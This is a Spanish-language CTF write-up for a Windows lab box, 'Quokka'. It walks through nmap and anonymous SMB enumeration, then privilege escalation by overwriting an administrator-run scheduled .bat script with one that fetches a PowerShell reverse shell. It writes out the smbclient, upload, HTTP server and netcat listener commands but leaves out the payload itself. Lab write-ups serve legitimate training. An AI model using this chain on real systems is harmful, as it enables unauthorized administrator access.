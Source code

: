 # 🏴‍☠️ Write-up — CTF Windows: Quokka

## 🔍 1. Escaneo de puertos

Realizamos un escaneo con `nmap` que reveló varios servicios abiertos:

```bash
nmap -sC -sV -p- 192.168.1.56
```

### Puertos relevantes encontrados:
- `80/tcp` → Microsoft IIS 10.0
- `135/tcp`, `139/tcp`, `445/tcp` → Servicios SMB
- `5985/tcp` → WinRM
- Muchos puertos MSRPC (49664–49672)

---

## 📁 2. Enumeración de recursos compartidos (SMB)

```bash
smbclient -L //192.168.1.56 -N
```

Se encontró el recurso **`Compartido`**, accesible anónimamente.

---

## 🗂 3. Navegación por carpetas compartidas

Accedimos a:

```bash
smbclient //192.168.1.56/Compartido -N
```

Carpetas exploradas:
- `Documentación` → Contenía archivos `.pptx` y `.pdf`, pero vacíos
- `Logs`, `Proyectos`

Dentro de **`Proyectos/Quokka`**, encontramos:
- `Documentación_Interna.docx` → Indicaba que el proyecto era interno
- Carpeta `Código` con archivos `.bat`

---

## 💣 4. Identificación de escalada de privilegios

En `Código/`, descubrimos:

- `mantenimiento - copia.bat` con el siguiente contenido clave:
  ```bat
  :: Este script se ejecuta con permisos de administrador cada minuto
  move "C:\Logs\*.log" "C:\Backup\OldLogs\"
  del /q "C:\Temp\*.*"
  ```

💡 Esto reveló una **tarea programada que ejecuta el script como administrador**, lo que permite una **escalada de privilegios por sustitución de script** si tenemos permisos de escritura.

---

## ✍️ 5. Confirmación de permisos de escritura

Subimos un archivo de prueba con:

```bash
put prueba.txt
```

✅ Confirmado: podemos escribir en la carpeta donde se encuentra el script `mantenimiento.bat`.

---

## 🔥 6. Payload de reverse shell

Creamos un `shell.ps1` con una reverse shell en PowerShell y un `malicioso.bat` que lo descarga y ejecuta automáticamente.

⚠️ **Contenido de estos archivos no incluido por detección antivirus.**

---

## 📤 7. Sustitución del script original

```bash
put malicioso.bat mantenimiento.bat
```

---

## 📡 8. Servidor HTTP y escucha

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

---

## 🏁 9. Shell recibida como administrador

Tras un minuto:

```powershell
whoami
# win-vru3gg3dp1j\administrador
```

✔️ Escalada de privilegios completada.

---

## ✅ Técnicas utilizadas

- Enumeración de SMB anónima
- Acceso a recursos compartidos
- Identificación de script con permisos elevados
- Escalada por **escritura en script ejecutado como SYSTEM**
- Reverse shell en PowerShell (no incluida)
- Sustitución de script por payload malicioso
